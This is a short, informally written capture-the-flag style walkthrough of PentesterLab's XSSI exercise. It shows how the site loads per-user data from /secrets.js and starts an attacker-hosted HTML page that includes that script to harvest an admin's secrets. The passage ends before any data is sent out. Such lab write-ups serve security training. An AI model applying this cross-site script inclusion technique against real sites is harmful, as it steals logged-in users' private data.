


`https://pentesterlab.com/exercises/xssi/course`  
regist and login on this website

open network tab to capture http request

we can see, this website running script `/secrets.js` contain data `key:value`and a script
```js
<script>
function display(data) {
  var ul= document.getElementById("secrets");
  for (var key in data){
    alert
    var li = document.createElement("li");
    li.appendChild(document.createTextNode(key+":"+data[key]));
    ul.appendChild(li);
  }

}
</script>
```
This script above will get data `key` from `secrets.js` and showing up by list on dashboard website through `<li>` html tag
Look around, this script above will get all content from secrets.js per user, i mean Account `a` using `this script` to get `a's secret data`
ok, lets write a code to injection payload get admin `secrets` information when admin loggin on server

coppy script 
```html
<ul id="secrets"></ul>
<script>
function display(data) {
  var ul= document.getElementById("secrets");
  for (var key in data){
    alert
    var li = document.createElement("li");
    li.appendChild(document.createTextNode(key+":"+data[key]));
    ul.appendChild(li);
  }

}
</script>
<a href="/secrets/new">Add a secret</a>
<script src="/secrets.js">
</script>
```

let's create payload by editing this script,
1. create html file conttain 

```html
<html>
    <body>
        <ul id="secrets"></ul>
        <script>
        function display(data) {
          var ul= document.getElementById("secrets");
          for (var key in data){
            alert
            var li = document.createElement("li");
            li.appendChild(document.createTextNode(key+":"+data[key]));
            ul.appendChild(li);
          }
        
        }
        </script>
        <a href="/secrets/new">Add a secret</a>
        <script src="/secrets.js">
        </script>
    </body>
</html>
```

